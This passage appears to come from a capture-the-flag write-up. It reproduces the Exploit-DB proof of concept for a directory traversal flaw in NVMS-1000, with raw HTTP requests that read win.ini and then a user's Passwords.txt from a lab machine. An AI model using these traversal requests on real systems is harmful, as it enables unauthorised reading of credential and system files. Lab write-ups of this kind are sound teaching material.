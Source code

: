     kali@kali:~$ cat /usr/share/exploitdb/exploits/hardware/webapps/47774.txt
    # Title: NVMS-1000 - Directory Traversal
    # Date: 2019-12-12
    # Author: Numan Türle
    # Vendor Homepage: http://en.tvt.net.cn/
    # Version : N/A
    # Software Link : http://en.tvt.net.cn/products/188.html

    POC
    ---------

    GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
    Host: 12.0.0.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
    Connection: close

    Response
    ---------

    ; for 16-bit app support
    [fonts]
    [extensions]
    [mci extensions]
    [files]
    [Mail]
    MAPI=1

We fire up burp and make the same request as in the POC (changing the host
obviously). We got the `win.ini` file.

We then change our request to get the content of the `Passwords.txt` file on
Nathan's desktop which give us seven passwords.

    :::text
    GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
    Host: 10.10.10.184
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
    Connection: close
